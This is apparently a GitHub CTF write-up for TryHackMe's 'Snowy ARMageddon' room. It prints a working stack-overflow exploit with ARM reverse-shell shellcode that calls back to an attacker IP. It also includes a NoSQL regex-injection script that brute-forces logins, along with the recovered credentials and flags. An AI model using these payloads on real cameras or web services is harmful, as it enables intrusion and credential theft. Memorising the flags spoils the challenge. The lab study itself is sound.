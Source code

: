 # Snowy ARMageddon

This SideQuest can be found here: https://tryhackme.com/room/armageddon2r

## 1. What is the content of the first flag?

Starting of with a port scan on the provided IP address, we find port 22, 23, 8080 and 50628 which is definitely not a commonly found port.  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/1f52fcc7-0caf-4d1f-8084-c83dc51c7a7e)

Looking at it in the browser, we can see it's a Wireless Streaming Camera:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/161ebb0a-0906-4b5e-bfc7-a107759ae86c)

A quick google search for any exploits for this camera, we can see an ARM challenge which seems to match up with the ARM that's capitalized in the challenge description. So we must be on the right track.

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/3b2f41f9-42e8-43c1-9e30-1bbefb722891)

The description and details of the challenge can be found [here](https://no-sec.net/arm-x-challenge-breaking-the-webs/). Within this blog post we find that the camera is vulnerable to a Stack Overflow and we already have a python script for it. The challenging part was getting my attacker IP converted to ARM shellcode properly. I was not able to do that but I collaborated with a talented hacker by the name [william-barros-costa](https://github.com/william-barros-costa) who was able to manually convert my VPN IP to the shellcode needed for the foothold.

```python
from pwn import *
import sys
   
HOST = str(sys.argv[1])
PORT = 50628
LPORT = 4444
 
BADCHARS = b'\x00\x09\x0a\x0d\x20\x23\x26'
BAD = False
LIBC_OFFSET = 0x40021000
LIBGCC_OFFSET = 0x4000e000
RETURN = LIBGCC_OFFSET + 0x2f88    # libgcc_s.so.1: bx sp   0x40010f88
SLEEP = LIBC_OFFSET + 0xdc54    # sleep@libc 0x4002ec54
 
pc = cyclic_find(0x63616176)  # 284
r4 = cyclic_find(0x6361616f)  # 256
r5 = cyclic_find(0x63616170)  # 260
r6 = cyclic_find(0x63616171)  # 264
r7 = cyclic_find(0x63616172)  # 268
r8 = cyclic_find(0x63616173)  # 272
r9 = cyclic_find(0x63616174)  # 276
r10 = cyclic_find(0x63616175) # 280
sp = cyclic_find(0x63616177)  # 288
 
SC  = b'\x10\xd0\x4d\xe2'     # sub sp, 16
SC += b'\x68\x10\xa0\xe3\x01\x14\xa0\xe1\x73\x10\x81\xe2\x01\x14\xa0\xe1\x2f\x10\x81\xe2\x04\x10\x2d\xe5\x6e\x10\xa0\xe3\x01\x14\xa0\xe1\x69\x10\x81\xe2\x01\x14\xa0\xe1\x62\x10\x81\xe2\x01\x14\xa0\xe1\x2f\x10\x81\xe2\x04\x10\x2d\xe5'      # /bin/sh
SC += b'\x01\x10\x21\xe0\xce\x10\x81\xe2\x01\x14\xa0\xe1\x5f\x10\x81\xe2\x01\x14\xa0\xe1\x06\x10\x81\xe2\x81\x13\xa0\xe1\x05\x10\x81\xe2\x81\x10\xa0\xe1\x04\x10\x2d\xe5'  #10.6.95.206
SC += b'\x5c\x10\xa0\xe3\x01\x14\xa0\xe1\x11\x10\x81\xe2\x01\x18\xa0\xe1\x02\x10\x81\xe2\x04\x10\x2d\xe5'   # 4444; AF_INET, SOCK_STREAM
SC += b'\xef\x30\xa0\xe3\x03\x3c\xa0\xe1\x04\x30\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x0b\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x0c\x10\x81\xe2\x01\x10\x81\xe2\x04\x10\x2d\xe5\xe9\x10\xa0\xe3\x01\x14\xa0\xe1\x2d\x10\x81\xe2\x01\x18\xa0\xe1\x05\x10\x81\xe2\x04\x10\x2d\xe5\xe0\x10\xa0\xe3\x01\x14\xa0\xe1\x22\x10\x81\xe2\x01\x14\xa0\xe1\x1f\x10\x81\xe2\x01\x10\x81\xe2\x01\x14\xa0\xe1\x02\x10\x81\xe2\x04\x10\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x8f\x10\x81\xe2\x01\x18\xa0\xe1\x18\x10\x81\xe2\x04\x10\x2d\xe5'   # execve()
SC += b'\x04\x30\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x02\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x18\xa0\xe1\x0b\x10\x81\xe2\x04\x10\x2d\xe5'   # dup2(STDERR)
SC += b'\x04\x30\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x01\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x18\xa0\xe1\x0b\x10\x81\xe2\x04\x10\x2d\xe5'   # dub2(STDOUT)
SC += b'\x04\x30\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x87\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x0e\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x31\x10\x81\xe2\x04\x10\x2d\xe5\xe0\x10\xa0\xe3\x01\x14\xa0\xe1\x21\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x01\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x18\xa0\xe1\x0b\x10\x81\xe2\x04\x10\x2d\xe5'   # dup2(STDIN)
SC += b'\x04\x30\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x87\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x1c\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\xff\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x1f\x10\x81\xe2\x01\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x04\x10\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x8f\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x50\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\xb0\x10\x81\xe2\x01\x14\xa0\xe1\x04\x10\x2d\xe5'   # connect()
SC += b'\x04\x30\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x87\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x1a\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\xff\x10\x81\xe2\x04\x10\x2d\xe5\xe0\x10\xa0\xe3\x01\x14\xa0\xe1\x22\x10\x81\xe2\x01\x14\xa0\xe1\x1f\x10\x81\xe2\x01\x10\x81\xe2\x01\x14\xa0\xe1\x02\x10\x81\xe2\x04\x10\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x81\x10\x81\xe2\x01\x18\xa0\xe1\x01\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x01\x10\x81\xe2\x04\x10\x2d\xe5'   # socket()
#SC += b'\x01\x0c\xa0\xe3'   # mov r0, #256  ; sleep for 256s to avoid cache coherency issues
#SC += b'\x3a\xff\x2f\xe1'   # blx r10       ; r10 contains address of sleep@libc
SC += b'\x1d\xff\x2f\xe1'   # bx sp
 
info('Shellcode length: %d' % len(SC))
for i in range(len(SC)):
  if SC[i] in BADCHARS:
    print('BAD CHARACTER in position: %d!')
    BAD = True
if BAD:
  exit(1)
 
buffer  = b'A' * r10
buffer += p32(SLEEP)    # overwrite r10 with address of sleep()
buffer += p32(RETURN)   # bx sp
buffer += SC
 
s = remote(HOST, 50628)
s.send(b'GET /en/login.asp?basic=' + buffer + b' HTTP/1.0\r\n\r\n')
 
nc = listen(LPORT)
nc.wait_for_connection()
nc.interactive()
s.close()
nc.close()
```
Once inside the machine, we start enumerating (a lot) and soon-ish find a password in /var/etc/umconfig.txt:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/b1ed27fe-8d2d-4329-adfa-89af01abea8b)

Y3tiStarCur!ouspassword=admin

We can use these creds to login the camera dashboard and see the first flag:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/5abfaf94-19f7-4bdd-b4ea-dea68f2f59fa)

`THM{YETI_ON_SCREEN_ELUSIVE_CAMERA_STAR}`

## 2. What is the content of the yetikey2.txt file?

Going back on port 8080, we find a seemingly unaccesable page:  
![image](https://github-production-user-asset-6210df.s3.amazonaws.com/80063008/292659995-c4f867a8-4339-4b87-9337-dfc3ffb3880e.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20231228%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20231228T091542Z&X-Amz-Expires=300&X-Amz-Signature=04a3b9e14dcf67293e0e95fb133be9bbf5ab56f2a009c5f757433c535a3f1826&X-Amz-SignedHeaders=host&actor_id=80063008&key_id=0&repo_id=600841946)

However, if we use `ffuf` to fuzz for files with any of the raft wordlists from seclists, but also add another slash at the end, we find that the login page is accessible:  
![image](https://github-production-user-asset-6210df.s3.amazonaws.com/80063008/292660022-00ca1ea3-41c6-4417-9c45-54cb819365bc.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20231228%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20231228T091603Z&X-Amz-Expires=300&X-Amz-Signature=5921b1d41db392f4acdcd7f459e50012c551e5d6327efde83f5c0703eef49730&X-Amz-SignedHeaders=host&actor_id=80063008&key_id=0&repo_id=600841946)

Multiple different attempts were made to bypass the login and then we noticed this error which confirms a NoSQL database being used in the background:  
![image](https://github-production-user-asset-6210df.s3.amazonaws.com/80063008/292660048-54053351-d2cb-4d46-9549-0b93131a564e.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20231228%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20231228T091616Z&X-Amz-Expires=300&X-Amz-Signature=5bbb9e9d5ffd3bd7da5c4d71a87412a55310d8063e5016050b36e98e76b517df&X-Amz-SignedHeaders=host&actor_id=80063008&key_id=0&repo_id=600841946)

I grabbed [this](https://book.hacktricks.xyz/pentesting-web/nosql-injection#brute-force-login-usernames-and-passwords-from-post-login) script from hacktricks and modified it a bit to start enumerating. As you can see from the commented code, I enumerated users first based on the number of characters in the password.

```python
import requests
import string

url = " http://10.10.29.186:8080/login.php/"
proxy = {"http":"http://127.0.0.1:8080"}
headers = {'Content-type': 'application/x-www-form-urlencoded'}
possible_chars = list(string.ascii_letters) + list(string.digits) + ["\\"+c for c in string.punctuation+string.whitespace ]
def get_password(username):
    print("Extracting password of "+username)
    params = {"username":username, "password[$regex]":""}
    password = "^"
    while True:
        for c in possible_chars:
            params["password[$regex]"] = password + c + ".*"
            pr = requests.post(url, data=params, headers=headers, proxies=proxy, verify=False, allow_redirects=False)
            if 'Invalid' not in pr.text:
                password += c
                break
        if c == possible_chars[-1]:
            print("Found password "+password[1:].replace("\\", "")+" for username "+username)
            return password[1:].replace("\\", "")

def get_usernames():
    # usernames = ['Blizzardson','Frostbite', 'Grinchenko', 'Iciclevich', 'Northpolinsky','Scroogestein', 'Tinselova'] #users found with exactly 20 chars in the password (.{20})
    # usernames = ['Frosteau'] #users found with less than 20 chars in the password (^.{1,19}$)
    usernames = []
    params = {"username[$regex]":"", "password[$regex]":"^.{21,}$"} #regex to search users with more than 20 chars in the password
    for c in possible_chars:
        username = "^" + c
        params["username[$regex]"] = username + ".*"
        pr = requests.post(url, data=params, headers=headers, proxies=proxy, verify=False, allow_redirects=False)
        if 'Invalid' not in pr.text:
            print("Found username starting with "+c)
            while True:
                for c2 in possible_chars:
                    params["username[$regex]"] = username + c2 + ".*"
                    if int(requests.post(url, data=params, headers=headers, proxies=proxy, verify=False, allow_redirects=False).status_code) == 302:
                        username += c2
                        print(username)
                        break

                if c2 == possible_chars[-1]:
                    print("Found username: "+username[1:])
                    usernames.append(username[1:])
                    break
    return usernames


for u in get_usernames():
    get_password(u)
```
After finding the usernames, the script automatically starts abusing the NoSQL injection to also get their passwords. The only one out of the ordinary seems to be the user `Frosteau` which has a password that's lower than 20 characters. Everyone else has the password set at 20 characters.

`Frosteau:HoHoHacked`

Using these credentials to login, we get redirects to the root website which again, tells us that we are forbidden. However, we need to keep in mind the slash trick at the end, which is a misconfiguration in the apache server. Adding the slash at the end of /index.php/ we get directed to the dashboard which has the content of the yetikey2.txt:  
![image](https://github-production-user-asset-6210df.s3.amazonaws.com/80063008/292660268-3779b5f7-6659-4ff0-bccb-e5daaa66c6d7.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20231228%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20231228T091628Z&X-Amz-Expires=300&X-Amz-Signature=d42f9e7baa746b5ea50ffe282a4b0be3ba0aec3e4e8cd2748bdd07e84cfcd118&X-Amz-SignedHeaders=host&actor_id=80063008&key_id=0&repo_id=600841946)

`2-K@bWJ5oHFCR8o%whAvK5qw8Sp$5qf!nCqGM3ksaK`
